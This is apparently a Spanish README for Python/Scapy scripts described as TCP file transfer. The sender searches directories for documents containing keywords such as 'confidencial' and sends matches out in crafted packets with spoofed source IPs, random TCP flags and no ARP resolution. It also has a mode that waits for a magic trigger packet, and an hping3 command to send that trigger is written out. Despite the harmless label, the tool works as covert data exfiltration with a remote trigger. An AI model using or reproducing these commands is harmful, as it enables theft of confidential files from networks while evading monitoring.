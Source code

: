 # Transferencia de Archivos a través de capa de transporte TCP

Este proyecto contiene dos scripts en Python (sender.py y receiver.py) para la transferencia de archivos a través de la red utilizando paquetes TCP. El objetivo principal de estos scripts es permitir la búsqueda de archivos que contengan ciertas palabras clave y enviarlos a través de la red a una máquina destino. El proceso de envío y recepción se maneja mediante paquetes TCP personalizados utilizando la librería Scapy.

## Características
1-. **sender.py**: Permite buscar archivos en un directorio local que contengan ciertas palabras clave y enviarlos a una máquina destino a través de la red.

2-. **receiver.py**: Escucha en una interfaz de red para recibir los paquetes enviados por sender.py y reconstruir el archivo recibido.

## Requisitos
- Python 3.x
- Librerías necesarias:
  - scapy
  - PyPDF2
  - python-docx
  - xlrd
  - openpyxl
  - python-pptx
    
Puedes instalar las librerías necesarias ejecutando:
```
pip install scapy PyPDF2 python-docx xlrd openpyxl python-pptx
```

## Uso sender.py
  El script sender.py tiene dos modos de operación:
  
  ### Modo searchAndSend
  Busca archivos en un directorio especificado por palabras clave y los envía a una máquina destino.
    
  #### Ejemplo de uso:
  ```
  python3 sender.py searchAndSend --rootPath <directorio_raiz> --keywords <palabra1,palabra2> --destinationIp <IP_destino> --tcpFlag <flag_tcp>
  ```

  #### Argumentos:
  - **--rootPath**: Ruta del directorio donde comenzar a buscar archivos.
  - **--keywords**: Palabras clave que se buscarán en los archivos. Separadas por comas.
  - **--destinationIp**: Dirección IP del receptor (máquina destino).
  - **--destinationPort**: Puerto de destino (por defecto 80).
  - **--sourceIp**: Dirección IP de origen (por defecto 10.1.0.10).
  - **--sourcePort**: Puerto de origen (por defecto 12345).
  - **--tcpFlag**: Flag del protocolo TCP. Puede ser uno de los siguientes: S, A, P, F, R, U, SA, FA, SF o random.

  #### Ejemplo:
  ```
  python3 sender.py searchAndSend --rootPath ./NAS --keywords confidencial --destinationIp 192.168.1.100 --tcpFlag random
  ```

  ### Modo waitForOrder
  Este modo espera recibir un comando de red para iniciar el envío de archivos. Una vez que el comando es recibido, sender.py buscará y enviará los archivos a la máquina destino.

  #### Ejemplo de uso:
  ```
  python3 sender.py waitForOrder
  ```
  Este comando pone al script en espera de recibir paquetes que contengan la información necesaria para realizar el envío de archivos. El paquete de activación debe comenzar por "1j2k3l4m" seguido de:
  
  - Valor del directorio raiz
  - Palabras clave
  - Dirección ip destino
  - Flag TCP

  Cada valor debe ir separado por "|"
  La cadena inicial "1j2k3l4m" sirve para identificar el paquete que activa el proceso. Se debe ajustar el parámetro -d con la longitud del string.

  #### Ejemplo
  ```
  1j2k3l4m./NAS|seguridad|192.168.1.11|S
  1j2k3l4m/home/user/Documents|planos|10.0.1.11|random
  1j2k3l4m/home/user/Documents|confidencial|198.51.100.12|F
  ```
  Puedes utilizar hping3 para realizar una prueba en la activación del proceso.
  ```
  echo -n "1j2k3l4m./NAS|seguridad|192.168.1.11|S" | sudo hping3 -S -p 80 -s 12345 -d 38 -E /dev/stdin 192.168.1.100
  ```

## Uso receiver.py
  El script receiver.py se utiliza para recibir los paquetes enviados por sender.py, reconstruir los archivos y guardarlos localmente. Solo se necesita ejecutar este script en la máquina que recibirá los archivos.

  #### Ejemplo de uso:
  ```
  python3 receiver.py
  ```
  El script comenzará a escuchar en la interfaz de red especificada (por defecto eth0) para recibir los paquetes y guardar los archivos en el directorio ./OUTPUT.
  
  ### Detalles de funcionamiento

  - **Envío de paquetes**: Los archivos se envían como fragmentos de paquetes TCP que se envían utilizando la librería Scapy. Cada fragmento incluye un identificador único ("magic") para asegurar que los paquetes sean correctamente reconocidos y procesados.

  - **Recepción de archivos**: El script receiver.py escucha los paquetes entrantes y va reconstruyendo el archivo a medida que recibe los fragmentos. Al finalizar la transferencia, el archivo es guardado en el directorio ./OUTPUT.

  #### Formatos de archivo soportados:
  - PDF
  - DOCX
  - TXT
  - XSL
  - XLSX
  - ODT

  Estos formatos son procesados para extraer su contenido y buscar las palabras clave.

## Seguridad
  - **ARP Spoofing**: Para evitar la resolución ARP (Address Resolution Protocol), la variable conf.arp_resolve está configurada a False en el script sender.py, lo que evita que se realicen consultas ARP durante el envío de paquetes.
  - **Dirección MAC estática**: La dirección MAC de destino está hardcodeada en el script como 00:11:22:33:44:55, lo cual podría ser necesario ajustarlo si se utiliza una red diferente.

## Contribuciones
Si deseas contribuir a este proyecto, por favor, realiza un fork del repositorio, realiza tus cambios y abre un pull request con una descripción detallada de las modificaciones.
